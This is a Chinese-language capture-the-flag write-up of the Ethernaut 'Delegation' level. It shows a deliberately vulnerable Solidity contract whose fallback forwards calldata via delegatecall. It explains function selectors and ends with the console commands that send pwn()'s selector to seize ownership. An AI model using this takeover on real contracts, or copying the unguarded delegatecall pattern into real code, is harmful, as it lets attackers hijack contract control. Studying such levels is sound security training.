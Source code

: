 # Delegation
Delegation 這一關考察了幾個知識點，第一是delegatecall，第二是如何直接使用msg.data call函數，那我們先看一下合約代碼

## 合约代码
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
## 代码分析
代碼包含了兩份合約，分別是`Delegation`和`Delegate`，Delegate合約中，除`constructor`以外，只有一個函數`pwn()`,可以用于將`msg.sender`指定爲`owner`。而在`Delegation`合約中，只有一個`fallback`函數，這個函數中用戶可以使用`delegatecall`入參`msg.data`來調用目標地址的合約。

那有人在這裏問我怎麽保證`Delegation`調用`pwn()`的時候`msg.sender`是我們的錢包地址，難道`msg.sender`不是`Delegation`地址而是我們的地址嗎？是的，這便是`call`和`delegatecall`的區別。如果將設我們是`A`,有一個`B`合約和`C`合約，我們通過`B`合約`call` `C`合約的函數，那麽在這個情境下，`msg.sender`是`B`合約的地址，`msg.value`是B合約給予的，但是如果我們通過`delegatecall` `C`合約的函數，那麽`msg.sender`就是我們的地址，`msg.value`是我們給予的。

接下來，就是第二個問題，如何寫`msg.data`。這裏附帶一下solidity官方文檔的原文：

>**Function Selector**  
The first four bytes of the call data for a function call specifies the function to be called. It is the first (left, high-order in big-endian) four bytes of the Keccak-256 hash of the signature of the function. The signature is defined as the canonical expression of the basic prototype without data location specifier, i.e. the function name with the parenthesised list of parameter types. Parameter types are split by a single comma - no spaces are used.

大致意思就是說，`msg.data`的前四個字節是函數的`selector`，這個`selector`是函數的`keccak256`哈希值的前四個字節。除了前四個字節外，我們還要在最開始加上`0x`。

我們可以通過兩種方式來獲取`selector`:
1. 使用web3.js的web3.eth.abi.encodeFunctionSignature函數
```
web3.eth.abi.encodeFunctionSignature('pwn()')
```
1. 使用web3.utils.sha3函數
```
web3.utils.sha3('pwn()').slice(0, 10)
```
理解這兩點我們就可以開始闖關了。

## 攻击过程
1. F12打開console,調用`web3.eth.abi.encodeFunctionSignature`函數獲取`pwn()`的selector,得到`'0xdd365b8b'`
2. 使用`contract.sendTransaction({data: '0xdd365b8b'})`調用`pwn()`函數,完成交易，并且完成本次的通關。
